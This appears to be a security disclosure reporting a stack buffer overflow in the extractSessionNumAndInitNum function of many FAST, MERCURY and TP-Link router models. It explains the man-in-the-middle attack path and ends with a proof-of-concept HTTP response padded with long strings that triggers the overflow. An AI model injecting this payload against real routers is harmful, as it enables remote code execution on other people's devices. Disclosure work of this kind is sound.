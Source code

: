 # extractSessionNumAndInitNum Vulnerability Report

FAST,MERCURY and TP-Link routers have a stack overflow issue in `extractSessionNumAndInitNum` function.

Local users could get remote code execution, this vulnerability currently affects three types of routers:

- FW, FAC, FR series of FAST router, including FW325R, FAC1203R, FW326R, FR100P-AC, FAC1900R, FAC1200R, etc ;
- D, M, MW series of MERCURY router, including D121G, MW310R, M6G, MW313R, D12A, MW325R, D196G, MW300R, D12, MW315R, MW351R, D126, M9G, D19, MW326R, MR100P-AC, D12B, etc ;
- WDR, WR, R, WA series of TP-Link router, including TL-WDR5620, TL-WDR5650, TL-WR842N, TL-WDR7660, TL-WDR7620, TL-R470P-AC, TL-WDR7661, TL-WDR7650, TL-WDR7651, TL-WA933RE, etc.

It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

**Threat model**: An attacker can intercept the traffic between router and Intenet. That is, an attacker can perform a man-in-the-middle attack on the router.

This vulnerability happen when `extractSessionNumAndInitNum` handle data from cloud server by using `strncpy`.

1. Attackers intercept the response from cloud server.
2. Then attackers send a malicious response to the router. The data up to the `' '`  and `'\r\n'`  in this malicious response are filled a long string.
3. `extractSessionNumAndInitNum` get these fileds by using `strstr`. However, the length is not checked.
4. Finally, whole string of these fields are copyed to the stack by `strncpy` and lead to a stack buffer overflow to execute arbitrary code.

![微信图片_20241014164143.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/1ffed55b-ee53-4441-be11-70b5a405738b/e815f85a-47c8-45fa-8aba-d3c83343ec04/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_20241014164143.png)

## PoC

```
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 200
Connection: close
Cache-control: no-cache

111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111aaa aaa111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n
```
